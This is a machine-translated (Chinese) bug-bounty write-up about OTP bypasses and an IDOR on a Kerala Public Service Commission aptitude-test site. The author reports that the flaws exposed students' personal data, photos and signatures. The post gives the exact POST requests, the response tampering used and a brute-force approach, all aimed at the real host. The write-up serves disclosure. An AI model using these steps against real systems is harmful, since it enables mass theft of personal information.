

# 喀拉拉邦私营保安公司的数千名学生可以不受限制地进入 PII

> 原文：<https://infosecwriteups.com/write-up-dwyw-do-whatever-you-want-in-kerala-psc-8f61ebb667fa?source=collection_archive---------2----------------------->

一篇关于政府数据泄露漏洞的报道。自有网站。


*图片来源*[*@ pix abay*](https://www.pexels.com/@pixabay)*[*像素*](https://www.pexels.com/)*

*在这篇文章中，我想谈谈我在[喀拉拉邦公共服务委员会](https://www.keralapsc.gov.in/)拥有的一个网站上发现的多个问题。这里的问题是 otp 旁路实现 IDOR。对于那些不知道我是谁的人，引用 OWASP*

> *当应用程序根据用户提供的输入提供对对象的直接访问时，就会出现不安全的直接对象引用。由于此漏洞，攻击者可以绕过授权，直接访问系统中的资源。*

*网站的 url 是 https://mailer.psc.kerala.gov.in/KPSCAptitudeTest/home，这是他们为工科学生的能力测试开设的一个临时网站。*

**

# *网站如何运作*

*学生可以通过提供以下详细信息来注册能力倾向考试:大学身份证号码、手机号码、电子邮件、姓名、地址、大学名称、期望的中心名称和他们自己的照片、签名和身份证。*

> *问:这个是给工科生的。我在那里做什么？*

*我们无处不在。在这种情况下，我的一个朋友是一名工程系学生，她要求我注册她的详细信息，因为她没有带笔记本电脑。我说好的，这就是我访问这个网站的原因。*

*我用她的详细资料注册，几天后，注册结束，是时候下载门票了。我参观了网站。登记表在那里，但被禁用。现在只有电话号码和大学身份证号码字段是活动的。它要求我们输入电话号码，然后它会发送动态口令，如果成功，它会自动填充所有的细节，我们也可以从那里下载门票。注册的时候，我没有想到要测试这个网站，而且这也不适合我。所以我没有尝试任何 xss 的有效载荷或网站上的其他任何东西。*

*现在让我们来谈要点。*

*我给了我的电话号码，但没有得到任何动态口令，这种情况持续了 4-5 次。我决定绕过它。*

## *错误 1:最简单的错误*

*我输入了手机号和高校身份证，勾选了下载大厅购票按钮。但它被禁用了。*

*我打开 chrome devtools，元素检查器，导航到下载按钮，删除属性 disabled。现在我点击了下载按钮，嘣！！厅票下载成功。请记住，询问动态口令的字段仍然存在，我没有任何动态口令。*

## *错误 2:另一个简单的错误*

*在这里，我尝试了另一种方法。没有输入身份证号码，我只是输入了手机号码，然后点击发送 otp。然后在 otp 字段，我输入随机数，点击验证。它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/verifyOTP_download_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
cand_mob={mobile_number}&otp_entered={otp_I_entered}&csrf_token_online_mock={some_md5_value}*
```

*回应看起来像是*

```
*200 OK
{“message”: “The OTP you have entered is incorrect!!”, “status”:false}*
```

*我截取了响应，并将响应 json 值编辑为*

```
*{“status”:true}*
```

*是的。成功了。然后，它填写了表格中的所有数据和下载大厅门票按钮，然后启用。*

## *Bug 3 : IDOR 访问其他用户的数据*

*然后，我输入了我朋友的电话号码，假设她已经注册了。感谢上帝，她绕过了 otp 验证，注册了考试。这一次，我留意了它发送的所有请求，以下是观察结果。*

*1.获取学生的详细信息*

*一旦 otp 验证成功，它首先发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_details_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*并且服务器响应*

```
*{“0”: {“cand_cd”:”{some_id}”, “cand_id”:”{college_id_number}”,”cand_name”:”{name_of_student}”,”cand_dob”:”{dob}”,”cand_address”:”{address_of_student}”,”cand_email”:”{email}”,”cand_mobile”:”{mobile_numer}”,”clg_name”:”{college_name}”,”cand_idcard_path”:”{relative_url_to_photo_of_idcard}”,”cand_exam_venue_opted”:”{id_of_exam_center}”},”details”: [{“cand_cd”:”{some_id}”, “cand_id”:”{college_id_number}”,”cand_name”:”{name_of_student}”,”cand_dob”:”{dob}”,”cand_address”:”{address_of_student}”,”cand_email”:”{email}”,”cand_mobile”:”{mobile_numer}”,”clg_name”:”{college_name}”,”cand_idcard_path”:”{relative_url_to_photo_of_idcard}”,”cand_exam_venue_opted”:”{id_of_exam_center}”}],”status”:true}*
```

*这包括细节*

*A.告发*

*B.电子邮件*

*C.地址*

*D.身份证照片链接*

*在这个请求中，服务器不检查任何东西来验证请求中的手机号码。这意味着我们可以改变手机号码，如果它是一个注册号码，我们可以得到这些细节。*

*2.去拿照片*

*a.为了获得学生的照片，它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_photo_download HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*回应是学生的 base64 解码图像。*

*b.为了获得签名的照片，它发送另一个请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_sign_download HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*响应是签名的 base64 解码图像。*

*3.获取大厅门票下载链接*

*为了获得下载大厅门票的链接，它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/download_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&cand_id={idcard_number}&csrf_token_onlinemock={csrf_token}*
```

*它返回一个 base64 编码的值，解码后显示如下*

```
*report=header&type=pdf&cand_idcard_no={idcard_number}&cand_mob={mobile}*
```

*4.下载门票*

*在获得上述 base64 编码的响应后，它发送另一个请求*

```
*GET /KPSCAptitudeTest/application/reportengine.php?arg={base64_encoded_data} HTTP/1.1*
```

*上述请求的响应是一个 pdf 文件。*

## *摘要*

*先决条件:学生的手机号码(或)我们可以暴力。*

*如何进行攻击*

*发送 3.1 中的请求，以获得以下详细信息*

*a.名字*

*b.身份证号码*

*c.电子邮件*

*d.大学*

*e.告发*

*f.身份证照片*

*g.地址*

*等等。*

*如果您需要门票，请将以下内容编码为 base64*

```
*report=header&type=pdf&cand_idcard_no={idcard_number}&cand_mob={mobile}*
```

*并将其发送到#3.4 中提到的端点以下载厅票。*

*要获取照片和签名，请发送#3.2.a 和#3.2.b 中提到的请求*

*不存在速率限制，并且 csrf 令牌不是一次性使用的。此操作可以自动获取电话号码列表的详细信息，也可以强制执行*

# *我这边采取的行动*

*   *就此事联系了 PSC。*
*   *给他们发了邮件。*
*   *在脸书上评论他们的帖子。*

*->他们没有反应。*

*考试是在 3 月 9 日，现在他们已经关闭了网站。*

**关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。**

*[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)*